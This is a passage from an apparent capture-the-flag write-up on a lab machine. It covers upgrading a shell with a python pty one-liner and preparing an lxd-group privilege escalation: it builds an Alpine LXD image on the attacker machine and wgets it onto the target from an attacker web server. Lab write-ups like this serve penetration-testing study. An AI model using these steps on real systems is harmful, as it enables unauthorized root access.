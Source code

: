 > It worked!
{: .prompt-info }

Upgrading to a full `tty` shell.
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
funny@funbox:/home/funny$ export TERM=xterm
export TERM=xterm
funny@funbox:/home/funny$
```

Having a closer look at the users groups shows that we are in the `lxd` group.  
After a quick research we see that we can exploit this to get `root`.  
(`https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation`)

On the attacker machine.
```bash
$ sudo apt update
$ sudo apt install -y git golang-go debootstrap rsync gpg squashfs-tools
$ git clone https://github.com/lxc/distrobuilder
$ cd distrobuilder
$ make
$ mkdir -p $HOME/ContainerImages/alpine/
$ cd $HOME/ContainerImages/alpine/
$ wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
$ sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
```

Upload the created files `lxd.tar.xz` and `rootfs.squashfs` to the target using a simple web server like we uploaded the other stuff before. 
  
On the target machine.
```bash
funny@funbox:/tmp$ wget http://192.168.45.248/lxd.tar.xz
wget http://192.168.45.248/lxd.tar.xz
--2023-08-22 08:39:38--  http://192.168.45.248/lxd.tar.xz
Connecting to 192.168.45.248:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 872 [application/x-xz]
Saving to: 'lxd.tar.xz'

lxd.tar.xz          100%[===================>]     872  --.-KB/s    in 0.001s  

2023-08-22 08:39:38 (1.44 MB/s) - 'lxd.tar.xz' saved [872/872]

funny@funbox:/tmp$ wget http://192.168.45.248/rootfs.squashfs
wget http://192.168.45.248/rootfs.squashfs
--2023-08-22 08:39:57--  http://192.168.45.248/rootfs.squashfs
Connecting to 192.168.45.248:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2883584 (2.8M) [application/octet-stream]
Saving to: 'rootfs.squashfs'

rootfs.squashfs     100%[===================>]   2.75M   580KB/s    in 6.5s    

2023-08-22 08:40:09 (433 KB/s) - 'rootfs.squashfs' saved [2883584/2883584]
```
